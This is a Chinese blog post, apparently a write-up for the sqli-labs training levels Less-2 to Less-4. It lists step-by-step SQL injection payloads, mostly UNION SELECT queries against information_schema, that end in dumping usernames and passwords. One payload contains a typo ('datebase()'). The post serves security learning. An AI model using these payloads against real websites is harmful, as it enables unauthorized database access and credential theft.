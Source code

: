 ```yaml
---
layout: post
title: SQL报错注入(less2,less3,less4)
date: 2021-06-01 17:55 +0900
category: penetration-exp
---
```

<!-- TOC -->

- [0x0 LESS2-布尔型注入](#0x0-less2-布尔型注入)
- [0x1 LESS3-字符型注入(单引号带括号)](#0x1-less3-字符型注入单引号带括号)
- [0x2 LESS4-字符型注入(双引号带括号)](#0x2-less4-字符型注入双引号带括号)

<!-- /TOC -->
## 0x0 LESS2-布尔型注入
- 正常访问  
![](/images/20210601-1.png)
- 引号报错  
![](/images/20210601-2.png)
- 判断注入点  
`?id = 1 and 1=1 #`  
`?id = 1 and 1=2 #`
![](/images/20210601-3.png)
- 测列数  
`?id = 1 and 1=1 order by 4 #`  
![](/images/20210601-4.png)
- 测数据显示点  
`?id=-1 and 1=1 union select 1,2,3 #  //注意id改成-1`  
![](/images/20210601-5.png)  
- 测试数据库名和用户权限  
`?id=-1 and 1=1 union select 1,datebase(),user() #`  
![](/images/20210601-6.png)  
- 测表名  
`?id=-1 and 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() #`  
![](/images/20210601-7.png)
- 测列名  
`?id=-1 and 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema = database()),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`  
![](/images/20210601-8.png)
- 测字段  
`?id=-1 and 1=1 union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users #`  
![](/images/20210601-9.png)

## 0x1 LESS3-字符型注入(单引号带括号)
- 报错信息  
![](/images/20210601-10.png)
根据报错信息可以推断存在一个括号  
![](/images/20210601-11.png)
实际表现为  
`select ('id=1') and 1=2 --+) //--+后被注释掉`  
等价于  
`select ('id=1') and 1=2`  
- 测列数  
`?id=1') and 1=1 order by 4--+`  
![](/images/20210601-12.png)
- 测数据显示点  
`?id=-1') and 1=1 union select 1,2,3--+`  
![](/images/20210601-13.png)
- 测试数据库名和用户权限  
`?id=-1') union select 1,database(),user() --+`  
![](/images/20210601-14.png)
**之后步骤与LESS-2一致**  

## 0x2 LESS4-字符型注入(双引号带括号)
- 报错信息  
![](/images/20210601-15.png)
- 注入点  
`?id= 1") and 1=2 --+`  
![](/images/20210601-16.png)
- 测数据显示点  
`?id= -1") union select 1,2,3 --+`  
![](/images/20210601-17.png)
- 测试数据库名和用户权限  
`?id= -1")  union select 1,database(),user() --+`  
![](/images/20210601-18.png)
- 测表名  
`?id= -1")  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`  
![](/images/20210601-19.png)
- 测字段  
`?id= -1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'  and table_schema=database()--+`  
![](/images/20210601-20.png)
- 测数据  
`?id= -1") union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users--+`  
![](/images/20210601-21.png)